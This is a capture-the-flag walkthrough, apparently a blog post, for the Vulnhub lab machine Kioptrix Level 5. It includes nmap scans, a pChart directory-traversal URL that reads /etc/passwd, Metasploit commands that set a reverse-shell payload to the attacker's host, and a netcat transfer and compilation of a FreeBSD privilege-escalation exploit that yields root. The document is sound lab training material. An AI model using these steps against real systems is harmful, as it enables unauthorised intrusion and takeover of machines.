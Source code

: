 ```yaml
---
weigth: 1
title: "Kioptrix Level 5 Walkthrough"
date: 2023-09-02T11:24:09+02:00
draft: false
author: Antu
publishDate: 2023-09-02
tags: ["Walkthrough", "Vulnhub", "TjNull", "OSCP", "Easy"]
categories: ["Vulnhub"]
images: []
resources:
- name: "featured-image"
  src: "preimagenKioptrix5.png"

lightgallery: true

toc:
  auto: false
---
```

# Kioptrix level 5

## Setup

For the machine to assign an ip you must remove the network adapter and add it again.

## Resolution
### Vulnerability scanning and analysis
I start by doing a scan of the local network with arp-scan to discover the ip of the target machine.

```bash
arp-scan -I eth0 --localnet

-I -> indicate the interface 
--localnet -> we indicate to generate addresses from the interface configuration.
```

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled.png)

I get that the ip of my target is 192.168.66.163, so I do a port scan with nmap.
```bash
nmap -p- --open  -T5 -n -Pn -vvv 192.168.66.163 -oN Target
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:46 EDT
Initiating ARP Ping Scan at 15:46
Scanning 192.168.66.163 [1 port]
Completed ARP Ping Scan at 15:46, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:46
Scanning 192.168.66.163 [65535 ports]
Discovered open port 80/tcp on 192.168.66.163
Discovered open port 8080/tcp on 192.168.66.163
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 9.90% done; ETC: 15:48 (0:01:31 remaining)
Completed SYN Stealth Scan at 15:47, 53.95s elapsed (65535 total ports)
Nmap scan report for 192.168.66.163
Host is up, received arp-response (0.00015s latency).
Scanned at 2023-08-31 15:46:49 EDT for 54s
Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
80/tcp   open  http       syn-ack ttl 64
8080/tcp open  http-proxy syn-ack ttl 64
MAC Address: 00:0C:29:5B:14:9E (VMware)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 54.25 seconds
           Raw packets sent: 131110 (5.769MB) | Rcvd: 50 (2.410KB)
```

I notice that ports 80 and 8080 are open, and I perform a second, more specific scan to obtain the version of the services running.
```bash
──(root㉿kali)-[/home/kali/vulnhub/OSCP/kioptrix_level_5]
└─# nmap -p80,8080 -sCV 192.168.66.163                        
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 15:49 EDT
Nmap scan report for 192.168.66.163
Host is up (0.00040s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp open  http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:5B:14:9E (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.05 seconds
```

After reviewing the results I noticed that the version of mod_ssl/2.2.21 is vulnerable but the exploit for this vulnerability does not contain a valid version for FreeBSD apache 2.2.21 so it did not work.

I then went on to check the web with port 80.
![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%201.png)

And when I opened the source code of the page I discovered a url address.
![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%202.png)

When I opened it I discovered the following:

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%203.png)
### Exploitation
Searching what phpchart is I found out that it is a php library to display text data graphically.
Then I searched if there is any vulnerability for this version and I found the following page.
[Exploiting pChart 2.1.3 (Directory traversal & XSS)](https://vk9-sec.com/exploiting-pchart-2-1-3-directory-traversal-xss/)

Reading I see that it is vulnerable to directory traversal so I enter the following address and get the /etc/passwd file
```bash
http://192.168.66.163/pChart2.1.3/examples/index.php?Action=View&Script=/../../../../etc/passwd
```
Reading a little more the web I discover that FreeBSD operating systems have the Apache configuration file in the following path, so I will read it now.

```bash
/usr/local/etc/apache22/httpd.conf
```

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%204.png)

Observing the result and after trying a log poison without success I see that the configuration file shows an allowed User-Agent (Mozilla/4.0 Mozilla4 browser) and a virtualHost on port 8080.

Through a browser extension I change the user agent

[https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/](https://addons.mozilla.org/en-US/firefox/addon/user-agent-switcher-revived/)

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%205.png)

With the user agent changed I perform the web search with port 8080 and I see the following.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%206.png)

I click on phptax and the following page appears.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%207.png)

Searching for an exploit for phptax I find the following exploits

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%208.png)

I have decided to use metasploit so by executing the following series of commands I get a shell.

```bash
#start  metasploit
msfconsole -q
#exploit search
search phptax
#select exploit
use 0
#setup
options
set RHOSTS 192.168.66.163
set RPORT 8080
show advanced
set UserAgent Mozilla/4.0 Mozilla4_browser
set payload payload/cmd/unix/reverse
set LHOST 192.168.66.152
set LPORT 4444
run
```
### Privilege escalation
We obtain a shell and enumerate.

```bash
whoami
www
id
uid=80(www) gid=80(www) groups=80(www)
uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

After enumerating a little bit the next step I did was to search if there is any exploit for the FreeBSD version of the machine.

![Untitled](Kioptrix%20level%205%200288b0f1d65b46d899e4bdd1fbcaae33/Untitled%209.png)

There is an exploit to escalate privileges so I download it on my machine and then transfer it to the target machine with netcat.

```bash
searchsploit -m freebsd/local/26368.c
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
    Codes: CVE-2013-2171, OSVDB-94414
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/vulnhub/OSCP/kioptrix_level_5/26368.c
```

I listen on my kali and connect from the target machine to perform the transfer in the /tmp directory.

```bash
#Kali
nc -lvp 4444 < 26368.c                            
listening on [any] 4444 ...

#kioptrix
nc -nv 192.168.66.152 4444 > 26368.c                                                                                                                                                                                                        
Connection to 192.168.66.152 4444 port [tcp/*] succeeded!
```

once transferred I compile the exploit and run it getting a shell as root

```bash
gcc 26368.c -o exploit
./exploit
whoami
root
id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
cat congrats.txt
If you are reading this, it means you got root (or cheated).
```
